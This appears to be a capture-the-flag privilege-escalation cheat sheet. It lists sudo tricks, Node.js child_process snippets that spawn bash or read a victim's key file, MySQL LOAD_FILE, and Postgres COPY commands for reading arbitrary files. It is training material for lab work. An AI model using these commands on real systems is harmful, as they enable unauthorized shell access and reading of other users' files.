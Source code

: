 # PrivEsc

Look in:

* /tmp
* /var/tmp
* /etc
* /etc/cron.daily-weekly-monthly

sudo -l
sudo -u victim /bin/bash

------------------------------------------------------------------------------- 

## JavaScript

node -e '...'

var exec = require('child_process').exec;
exec('/bin/bash', function (error, stdOut, stdErr) {
console.log(stdOut);
}); 

node -e "var exec = require('child_process').exec; exec(['cat /home/victim/key.txt'], function (error, stdOut, stdErr) {console.log(stdOut);});"

const { exec } = require('child_process');
exec('cat /home/victim/key.txt', (err, stdout, stderr) => {
  if (err) {
    //some err occurred
    console.error(err)
  } else {
   // the *entire* stdout and stderr (buffered)
   console.log(`stdout: ${stdout}`);
   console.log(`stderr: ${stderr}`);
  }
});

-------------------------------------------------------------------------------

## Mysql

SELECT LOAD_FILE('/var/lib/mysql-files/key.txt') AS Result;

-------------------------------------------------------------------------------

## Postgres

In this challenge, the user postgres has a trivial password. Once you get access to this account you should be able to connect to the local PostgreSQL database by running psql

Once you gain access, you can navigate the database using:

\list to list the databases
\c [DATABASE] to select the database [DATABASE]
\d to list the tables

SELECT * FROM users;   (case sensitive)

You can read files from the file system using:

# CREATE TABLE demo(t text);
# COPY demo from '[FILENAME]';
# SELECT * FROM demo;
# Where [FILENAME] is the filename.

-------------------------------------------------------------------------------

## Sqlite

$ sqlite3 [FILENAME]

Once you gain access to it, you can navigate the content using:

.tables to get a list of tables.

SELECT .... to extract the content of a table using SQL

-------------------------------------------------------------------------------

